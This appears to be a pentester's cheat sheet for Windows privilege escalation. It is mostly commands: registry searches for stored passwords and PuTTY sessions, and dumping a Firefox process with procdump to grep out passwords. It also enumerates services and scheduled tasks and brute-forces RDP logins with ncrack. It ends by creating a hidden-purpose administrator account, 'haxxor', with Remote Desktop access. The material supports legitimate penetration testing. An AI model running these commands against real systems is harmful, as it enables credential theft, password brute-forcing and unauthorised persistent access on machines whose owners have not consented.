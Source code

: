 ```cmd
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
### Reconfigure service parameters
*  Unquoted service paths

* Weak service permissions

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

### Dump process for passwords
```bash
# Looking for Firefox
Get-Process
./procdump64.exe -ma $PID-FF
Select-String -Path .\*.dmp -Pattern 'password' > 1.txt
type 1.txt | findstr /s /i "admin"
```
### Inside service
```cmd
netstat /a
netstat -ano
```
### Programs running as root/system

### Installed software
```cmd
tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

Look in:
C:\Program files
C:\Program files (x86)
Home directory of the user
```
### Scheduled tasks
```cmd
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```
### Weak passwords
```cmd
ncrack -vv --user george -P /usr/.../passwords.txt rdp://$IP
```
### Add user and enable RDP
```cmd
# Add new user

net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD
```